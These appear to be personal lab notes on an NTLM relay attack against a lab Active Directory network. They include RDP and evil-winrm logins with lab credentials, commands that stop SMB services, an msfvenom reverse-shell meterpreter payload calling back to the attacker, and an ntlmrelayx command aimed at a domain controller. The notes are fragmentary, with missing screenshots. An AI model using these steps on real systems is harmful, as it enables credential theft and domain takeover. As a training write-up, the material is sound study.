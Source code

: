 
```
DC-SRV01
10.201.11.30
```

```
S-SRV02
10.201.11.32
```
I will see how can i craft a NTLM so that i could catch it.



Let's get the RDP for 10.201.11.35
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.201.11.35 /u:'Sardarji' /p:'Password123!'
```


And will check if we have the access to the SMB this way
```
\\10.201.11.30
```
![[Pasted image 20240907153943.png]]


```
\\10.201.11.32
```
![[Pasted image 20240907154138.png]]

I also tend to check for ping 
![[Pasted image 20240907164157.png]]

So it's clear that one is refusing and one is not so the victim will be 10.201.11.30
But let's see how NTLM works as i didn't know how the algo works like i now we can only relay it but cannot replay it.

Now that we understand what an NTLM hash is and how it is hashed, we can look at how it responds and requests and why it can only be relayed and not replayed.

```
evil-winrm -u Sardarji -p 'Password123!' -i 10.201.11.35 -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network 
```


 Lots of File Server Shares are often auto-mounted via Startup Scripts when a user logs onto their Account, this making it the best option in my opinion


If all users in an AD Domain have a folder that auto-mounts, you simply need to compromise: 
- the File Server, 
- gain local Administrative Rights, 
and execute this attack and play the waiting game for a Domain/Enterprise Admin to log into their account and then it’s game over.

https://blog.spookysec.net/remote-ntlm-relaying/

```
sc stop netlogon
```

```
sc stop lanmanserver
```

```
sc config lanmanserver start= disabled
```

```
sc stop lanmanworkstation
```

```
sc config lanmanworkstation start= disabled
```

![[Pasted image 20240907170321.png]]

RESTART THE MACHINE


Now we have to configure the meterpreter shell through MSF console.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f exe > meterpreter_shell.exe
```


Setup up the multi handler and run it 


After than run the NTLMrelayx.py

```
sudo ntlmrelayx.py -t smb://10.201.11.30 -smb2support -socks
```